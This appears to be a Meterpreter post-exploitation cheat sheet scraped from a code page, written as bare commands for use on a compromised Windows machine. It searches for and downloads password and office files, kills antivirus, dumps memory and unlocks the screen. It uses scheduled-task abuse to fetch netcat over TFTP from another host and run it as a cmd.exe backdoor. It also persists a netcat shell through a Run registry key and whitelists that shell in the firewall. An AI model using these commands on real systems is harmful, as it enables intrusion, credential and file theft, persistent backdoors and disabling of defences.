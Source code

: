 ### Shows all the scripts

```
run <tab>
==========

```

### Find and download files

```
run search_dwld "%USERPROFILE%\\my documents" passwd
run search_dwld "%USERPROFILE%\\desktop passwd
run search_dwld "%USERPROFILE%\\my documents" office
run search_dwld "%USERPROFILE%\\desktop" office

```
### Alternate
```
download -r "%USERPROFILE%\\desktop"  ~/
download -r "%USERPROFILE%\\my documents"  ~/
```
### Alternate to shell not SYSTEM
```
### execute -f cmd.exe -H -c -i -t
==========
```

### An example of a run of the file to download via tftp of netcat and then running it as a backdoor.
```

run schtasksabuse-dev -t 192.168.1.7 -c "tftp -i 192.168.1.8 GET nc.exe,nc -L -p 8080 -e cmd.exe" -d 4
run schtasksabuse -t 192.168.1.7 -c "tftp -i 192.168.1.8 GET nc.exe,nc -L -p 8080 -e cmd.exe" -d 4
```
==========

```
run getgui
run killav
run winemun
run memdump
run screen_unlock

```

```
upload /tmp/system32.exe C:\\windows\\system32\\
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v system32 -d "C:\\windows\\system32\\system32.exe -Ldp 455 -e cmd.exe"
reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v system32
reg enumkey -k HKLM\\system\\controlset001\services\\sharedaccess\\parameters\\firewallpolicy\\Standardprofile\\authorizedapplications\\list
reg setval -k HKLM\\system\\controlset001\services\\sharedaccess\\parameters\\firewallpolicy\\Standardprofile\\authorizedapplications\\list -v sys
reg queryval -k HKLM\\system\\controlset001\services\\sharedaccess\\parameters\\firewallpolicy\\Standardprofile\\authorizedapplications\\list -v system32
upload /neo/wallpaper1.bmp "C:\\documents and settings\\pentest3\\local settings\\application data\\microsoft\\"
```
==========
